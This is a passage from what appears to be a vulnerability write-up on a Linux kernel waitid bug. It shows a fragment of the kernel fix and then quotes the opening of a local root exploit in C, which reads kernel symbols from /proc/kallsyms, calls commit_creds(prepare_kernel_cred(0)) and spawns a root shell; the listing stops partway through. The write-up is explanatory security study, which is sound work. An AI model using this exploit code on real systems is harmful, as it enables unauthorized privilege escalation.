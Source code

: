 ```c
+		goto Efault;
+
 	user_access_begin();
 	unsafe_put_user(signo, &infop->si_signo, Efault);
 	unsafe_put_user(0, &infop->si_errno, Efault);
```
Nowadays, it just fixed like above.

## Payload Analysis
Of course, by above vulnerability, we can trigger that with **several various ways** but let's see 'the orignal' first :)
![payload](https://www.exploit-db.com/exploits/43029/).

```c
#define _GNU_SOURCE
 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <string.h>
 
struct cred;
struct task_struct;
  
typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
  
prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;
  
void get_shell() {
  char *argv[] = {"/bin/sh", NULL};
  
  if (getuid() == 0){
    printf("[+] Root shell success !! :)\n");
    execve("/bin/sh", argv, NULL);
  }
  printf("[-] failed to get root shell :(\n");
}
  
void get_root() {
  if (commit_creds && prepare_kernel_cred)
    commit_creds(prepare_kernel_cred(0));
}
  
unsigned long get_kernel_sym(char *name)
{
  FILE *f;
  unsigned long addr;
  char dummy;
  char sname[256];
  int ret = 0;
  
  f = fopen("/proc/kallsyms", "r");
  if (f == NULL) {
    printf("[-] Failed to open /proc/kallsyms\n");
    exit(-1);
  }
```